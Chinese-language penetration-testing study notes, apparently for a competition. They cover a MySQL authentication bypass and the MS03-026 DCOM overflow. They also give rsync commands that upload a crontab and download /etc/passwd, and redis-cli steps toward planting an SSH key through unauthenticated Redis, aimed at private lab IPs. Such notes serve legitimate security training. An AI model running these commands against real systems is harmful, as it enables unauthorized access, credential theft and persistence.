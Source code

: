 漏洞影响** **

All MariaDB and MySQL versions up to** 5.1.61, 5.2.11, 5.3.5,
5.5.22** are vulnerable.

MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.

MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

漏洞绕过mysql身份认证

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image106.png){width="5.760416666666667in"
height="3.4245286526684167in"}

P9环境的不咋地

**ms03-026**

漏洞介绍：Microsoft Windows
DCOM [RPC](https://so.csdn.net/so/search?q=RPC&spm=1001.2101.3001.7020)接口长主机名远程缓冲区溢出漏洞。
使用DCOM接口的Windows RPC 服务器

s03-026漏洞就是利用的135这个端口,135端口开启

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image107.png){width="5.760416666666667in"
height="3.364226815398075in"}

rsync任意上传

rsync -av crontab1 rsync:*//192.168.0.113:873/src/etc/crontab1//rsync
-av 文件路径 rsync://ip:873/目标系统文件路径*

rsync任意下载文件

rsync -av rsync://\<ip\>:\<port\>/src/etc/passwd /

**redis未授权访问漏洞进行提权**

影响版本：

Redis 2.x，3.x，4.x，5.x (比赛开启这个端口就相当于有这个漏洞) 6379端

**[在 Redis 中使用哪个命令来选择所需的数据库？]{.mark}**

**[select]{.mark}**

**不需校验直接就可以连接redis,存在Redis未授权访问漏洞。**

**nmap -p\* -sV -T4 172.16.1.124**

**使用kali进入/root/.ssh创建ssh-keyget -t rsa**

![截图.png](D:\tools\Tools\Obsidian\sjqyyds\sjqyyds17\附件\渗透/media/image108.png){width="5.236111111111111in"
height="3.942729658792651in"}

**使用命令**(echo -e \"\\n\\n\"; cat id_rsa.pub; echo -e \"\\n\\n\") \>
key.txt #将共钥写入key.txt加"\\n\\n"以防混淆

使用cat /root/key.txt \| redis-cli -h 172.16.1.124 -x set xxx
#将文件命名为xxx
